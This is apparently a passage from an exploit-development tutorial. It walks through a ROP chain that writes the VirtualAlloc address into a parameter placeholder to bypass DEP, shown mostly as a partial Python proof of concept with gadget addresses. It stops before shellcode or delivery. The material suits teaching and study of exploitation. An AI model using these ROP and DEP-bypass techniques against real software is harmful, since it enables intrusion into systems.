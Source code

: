 # POP VirtualAlloc

Now, we'll fix the first of it. The 0x45454545, we'll put the VirtualAlloc base address in it.

```
virtual_alloc_placeholder = pack("<L", (0x45454545)) # KERNEL32!VirtuaAllocStub
```

We first need to find a POP gadget and the a write-where gadget to write it on the ECX, where the 0x45454545 are.

```py
0x6ab00efd,  # pop eax; ret; 
0x690398A0,  # VirtualAlloc	KERNEL32
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;
```

We update our PoC and make it working

```py
# 0x4rt3mis
# DEP Bypass
import socket
import sys
from struct import pack

total = 2500

def create_rop_chain():
        rop_gadgets = [
                ##############
                # -> Make ESP equal to ECX (-20)
                ##############
                ## Copy ESP to EBX, and put -20 in ESI
                0x6aaf2fd3, # push esp; pop ebx; pop esi; ret;
                0xffffffe0, # - 20 in ESI
                ## Put EBX (ESP) to ECX
                0x61b460d0,  # xchg eax, ebx; ret;
                0x68be726b,  # xchg eax, ecx; ret;
                ## Put -20 to EBP
                0x68aef542,  # xchg eax, esi; ret; 
                0x6d9c5993,  # xchg eax, ebp; ret; 
                ## ADD EBP on ECX, make 20 bytes before
                0x6d9c8e42,  # add ecx, ebp; ret; 

                ##############
                # -> Patch VirtualAlloc API Base Address
                ##############
                ## Put VirtualAlloc address on EAX and make it a Pointer
                0x6ab00efd,  # pop eax; ret; 
                0x690398A0,  # VirtualAlloc	KERNEL32
                0x61bb8cb3,  # mov eax, dword ptr [eax]; ret;
                ## Write-where EAX in ECX as a dword (pointer)
                0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;

                ]
        return ''.join(pack('<L', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

virtual_alloc_placeholder = pack("<L", (0x45454545)) # KERNEL32!VirtuaAllocStub
virtual_alloc_placeholder += pack("<L", (0x46464646)) # Shellcode Return Address
virtual_alloc_placeholder += pack("<L", (0x47474747)) # Shellcode Address
virtual_alloc_placeholder += pack("<L", (0x48484848)) # dwSize
virtual_alloc_placeholder += pack("<L", (0x49494949)) # flAllocationType
virtual_alloc_placeholder += pack("<L", (0x51515151)) # flProtect
```